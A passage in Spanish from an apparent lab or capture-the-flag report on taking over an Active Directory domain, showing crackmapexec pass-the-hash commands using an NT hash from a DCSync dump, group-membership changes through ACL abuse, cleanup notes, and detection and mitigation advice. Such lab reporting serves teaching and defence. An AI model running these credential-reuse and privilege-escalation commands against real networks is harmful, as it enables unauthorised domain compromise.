`Domain Admins`, `Enterprise Admins` y `Local System` también tienen derechos elevados. Como `Core-Infrastructure-Admins` es miembro de `Administrators`, `titan_api` queda dentro del grupo administrativo por anidamiento. El paso de “GenericWrite sobre Core” que describe el reto es redundante en este estado: `titan_api` ya era miembro.



### 6.3. `d.morales`: hash NT y modificación del grupo

El hash NT de `d.morales` se extrajo del DCSync y se usó con WinRM:

```bash
DMH=$(grep -F 'd.morales:' loot/dcsync-live.ntds | cut -d: -f4)
echo "d.morales NT: $DMH"

crackmapexec winrm 172.16.202.131 -u d.morales -H "$DMH" \
  -x 'net group Data-Analytics-Ops /domain'

crackmapexec winrm 172.16.202.131 -u d.morales -H "$DMH" \
  -x 'net group Data-Analytics-Ops /add estudiante /domain'
```

`d.morales` respondió `Pwn3d!` con el hash. La membresía inicial era `d.morales, titan_api`; tras el alta apareció `estudiante`. En la segunda captura se muestra el estado posterior al alta, el borrado y el estado final sin `estudiante`:

```bash
crackmapexec winrm 172.16.202.131 -u d.morales -H "$DMH" \
  -x 'net group Data-Analytics-Ops /domain'

crackmapexec winrm 172.16.202.131 -u d.morales -H "$DMH" \
  -x 'net group Data-Analytics-Ops /delete estudiante /domain'

crackmapexec winrm 172.16.202.131 -u d.morales -H "$DMH" \
  -x 'net group Data-Analytics-Ops /domain'
```





### 6.4. `titan_api`: modificación de `Core-Infrastructure-Admins`

```bash
crackmapexec winrm 172.16.202.131 -u titan_api -p 'Password123' \
  -x 'net group Core-Infrastructure-Admins /domain'

crackmapexec winrm 172.16.202.131 -u titan_api -p 'Password123' \
  -x 'net group Core-Infrastructure-Admins /add estudiante /domain'

crackmapexec winrm 172.16.202.131 -u titan_api -p 'Password123' \
  -x 'net group Core-Infrastructure-Admins /domain'
```

El grupo pasó de `s.velez, titan_api` a incluir temporalmente a `estudiante`. Después se eliminó:

```bash
crackmapexec winrm 172.16.202.131 -u titan_api -p 'Password123' \
  -x 'net group Core-Infrastructure-Admins /delete estudiante /domain'

crackmapexec winrm 172.16.202.131 -u titan_api -p 'Password123' \
  -x 'net group Core-Infrastructure-Admins /domain'
```





### 6.5. Estado final

```bash
crackmapexec winrm 172.16.202.131 -u titan_api -p 'Password123' \
  -x 'net group Data-Analytics-Ops /domain & net group Core-Infrastructure-Admins /domain'
```

Resultado final:

```text
Data-Analytics-Ops:         d.morales, titan_api
Core-Infrastructure-Admins: s.velez, titan_api
```

`estudiante` es una cuenta preexistente y no privilegiada; se usó solo en la prueba para demostrar que las ACL permitían altas y bajas. No se creó ninguna cuenta, no se cambiaron contraseñas y no se dejó ninguna membresía temporal.



---

## 7. Evidencia

Todas las imágenes están en `docs/img/`. La tabla las referencia completas, incluidas las dos capturas auxiliares de limpieza.

| Imagen | UTC | Contenido |
|---|---|---|
| [`01-session.png`](docs/img/01-session.png) | 01:10:22 | Fecha, host, usuario, IP y directorio de trabajo al inicio. |
| [`02-nmap-full.png`](docs/img/02-nmap-full.png) | 01:10:24 | Escaneo completo: 21 puertos abiertos, 65.514 filtrados. |
| [`03-nmap-services.png`](docs/img/03-nmap-services.png) | 01:11:11 | Versiones, LDAP de `corp.local`, SMB signing requerido, WinRM. |
| [`04-dns-ldap.png`](docs/img/04-dns-ldap.png) | 01:25:53 | `dig` ANY/SRV y atributos clave del rootDSE. |
| [`05-asrep.png`](docs/img/05-asrep.png) | 01:11:46 | Tres hashes AS-REP y errores reales del KDC. |
| [`06-kerberoast.png`](docs/img/06-kerberoast.png) | 01:11:49 | Tabla de SPNs y tres hashes TGS. |
| [`07-crack-asrep.png`](docs/img/07-crack-asrep.png) | 01:11:52 | Hashcat 18200: AS-REP a `Password123`. |
| [`08-crack-kerberoast.png`](docs/img/08-crack-kerberoast.png) | 01:11:58 | Hashcat 13100: TGS a `Password123`. |
| [`09-winrm-svcsql.png`](docs/img/09-winrm-svcsql.png) | 01:32:02 | SMB/WinRM `Pwn3d!` y miembros de `Administrators`. |
| [`10-dcsync.png`](docs/img/10-dcsync.png) | 01:26:12 | Comando DCSync y entradas NTDS, incluido `d.morales`. |
| [`11-flag.png`](docs/img/11-flag.png) | 01:26:16 | Lectura directa de la flag como `titan_api`. |
| [`12-bloodhound.png`](docs/img/12-bloodhound.png) | 01:26:25 | Recolección BloodHound, conteos y ZIP válido. |
| [`13-acl-data-analytics.png`](docs/img/13-acl-data-analytics.png) | 01:32:18 | `IT-Helpdesk` WriteDACL y `d.morales` FullControl. |
| [`14-acl-core.png`](docs/img/14-acl-core.png) | 01:13:02 | `Administrators` Modify/WriteOwner/WriteDACL en Core. |
| [`15-acl-dmorales.png`](docs/img/15-acl-dmorales.png) | 01:40:01 | Hash NT de `d.morales`, grupo inicial y alta. |
| [`15b-acl-dmorales-cleanup.png`](docs/img/15b-acl-dmorales-cleanup.png) | 01:40:16 | Grupo con `estudiante`, borrado y estado final. |
| [`16-acl-titanapi.png`](docs/img/16-acl-titanapi.png) | 01:32:58 | `titan_api`, alta de `estudiante` en Core y verificación. |
| [`16b-acl-titanapi-cleanup.png`](docs/img/16b-acl-titanapi-cleanup.png) | 01:33:19 | Borrado de `estudiante` y estado final de Core. |
| [`17-cleanup.png`](docs/img/17-cleanup.png) | 01:47:23 | Estado final limpio de ambos grupos. |
| [`18-session-end.png`](docs/img/18-session-end.png) | 01:47:31 | Cierre de la sesión: fecha, host, usuario. |

La transcripción completa está en `shots/live/terminal-transcript.txt`.

---

## 8. Limpieza y estado del laboratorio

- `estudiante` se añadió y se eliminó de `Data-Analytics-Ops` y de `Core-Infrastructure-Admins`. No quedó en ninguno de los dos grupos.
- No se crearon cuentas, servicios, tareas programadas ni mecanismos de persistencia.
- No se cambiaron contraseñas ni se deshabilitaron cuentas.
- No se modificaron DACLs de forma permanente. Las lecturas de `dacledit` fueron de solo lectura; las altas y bajas de grupos se revirtieron.
- `d.morales` se usó únicamente con su hash NT para validar la ACL. Su contraseña en claro no se recuperó.
- La flag se leyó y se guardó en `loot/flag-live.txt`; no se modificó el fichero del objetivo.
- El estado final de los grupos se verificó dos veces: en las capturas 15b/16b y en la captura 17, ya sin `estudiante`.

---

## 9. Detección y mitigación

### Kerberos

- Eliminar la marca `DONT_REQUIRE_PREAUTH` de las cuentas que no la necesiten; revisar las excepciones de AS-REP.
- Usar contraseñas largas y únicas o `gMSA` para cuentas de servicio; evitar `Password123` y la reutilización.
- Preferir AES y monitorizar `4768`/`4769` por tipos de cifrado débiles (RC4) y por volúmenes anómalos de TGS.
- Rotar `krbtgt` dos veces si se sospecha DCSync o Golden Ticket.

### ACLs y grupos privilegiados

- Auditar derechos `GenericAll`, `WriteDACL`, `WriteOwner` y `FullControl` sobre grupos y OUs.
- Revisar la pertenencia a `Administrators`, `Domain Admins`, `Enterprise Admins` y grupos anidados como `Core-Infrastructure-Admins`.
- Aplicar un modelo de administración por niveles; no dar `FullControl` directo a cuentas de helpdesk.
- Monitorizar `4728`, `4732` y `4756` (altas en grupos) y los cambios de DACL.
- Usar BloodHound o herramientas equivalentes para descubrir rutas de ACL antes de que lo haga un atacante.

### DCSync y WinRM

- Limitar `DS-Replication-Get-Changes` y `DS-Replication-Get-Changes-All` a los controladores y cuentas estrictamente necesarias.
- Monitorizar `4662` por replicación desde cuentas que no son DC.
- Restringir WinRM (`5985`) a redes de administración y usar `JEA`/grupos de salto.
- Implantar `LAPS`/`Windows LAPS` y contraseñas únicas para administradores locales.
- Revisar cuentas de servicio con SPNs y privilegios excesivos; `svc_sql` no debería estar en `BUILTIN\Administrators`.

### Contraseñas

La reutilización de `Password123` en seis cuentas fue el factor que convirtió dos técnicas de Kerberos en acceso completo. Un gestor de secretos, `gMSA` y rotación periódica habrían reducido drásticamente el impacto.

---

## 10. Limitaciones

- No hay validador oficial. La flag se leyó del fichero del escritorio de Administrator; el texto “Cadena Ofensiva Validada” que lo acompaña es parte del reto, no una verificación externa.
- La contraseña en claro de `d.morales` no se recuperó. Solo se usó su hash NT, obtenido por DCSync, para validar la ACL.
- La ruta de diseño no se ejecutó completa. Se validaron la modificación de `Data-Analytics-Ops` por `d.morales` y la de `Core-Infrastructure-Admins` por `titan_api`; el salto `Data-Analytics-Ops` → `titan_api` no se usó para comprometer esa cuenta.
- La ruta ejecutada es un atajo: `svc_sql` ya era miembro de `Administrators`. No se debe leer como una explotación de la cadena de diseño.
- Algunas capturas se repitieron para limpiar el ruido de `SyntaxWarning` de CrackMapExec y evitar que los comandos quedaran fuera de cuadro. Los comandos y resultados no se editaron; la transcripción conserva ambos pases.
- La primera recolección BloodHound generó un ZIP vacío de 22 bytes. Se repitió la recolección y se empaquetaron los siete JSON sin cambios; el ZIP final es válido.
- Dos cuentas devolvieron `KDC_ERR_CLIENT_REVOKED` durante el AS-REP roasting. Se conserva el error en la evidencia y no se usaron esas cuentas.

---

## 11. Reproducibilidad

Herramientas usadas: Nmap 7.991, Impacket 0.13.1, CrackMapExec, hashcat 7.1.2, BloodHound.py legacy (BloodHound 4.2/4.3) y Kali Linux.

Los comandos principales están en las secciones anteriores. Los archivos que permiten repetir el análisis sin volver a atacar el objetivo son:

```text
recon/nmap-full-live.txt
recon/nmap-services-live.txt
recon/ldap/users.txt
recon/bloodhound-live/
loot/asrep-live.txt
loot/kerberoast-live.txt
loot/hashcat-live.pot
loot/dcsync-live.ntds
loot/dcsync-live.ntds.kerberos
loot/flag-live.txt
loot/acl-data-analytics-live.txt
loot/acl-core-live.txt
loot/acl-titanapi-live.txt
loot/dmorales-groups-live.txt
shots/live/terminal-transcript.txt
```

---

## 12. Conclusión

El dominio se comprometió por una combinación de kerberoasting, reutilización de contraseñas y privilegios excesivos. `svc_sql` tenía un SPN kerberoasteable y ya pertenecía a `Administrators`, lo que permitió DCSync directo. `titan_api` también tenía un SPN y pertenecía a `Core-Infrastructure-Admins`, que a su vez está anidado en `Administrators`; con esa cuenta se leyó la flag.

La ruta de diseño basada en `d.morales` y las ACL de `Data-Analytics-Ops` es válida en cuanto a los derechos observados, pero no fue la ruta ejecutada. El informe separa ambas para no atribuir al diseño un acceso que se produjo por el atajo de `svc_sql`.
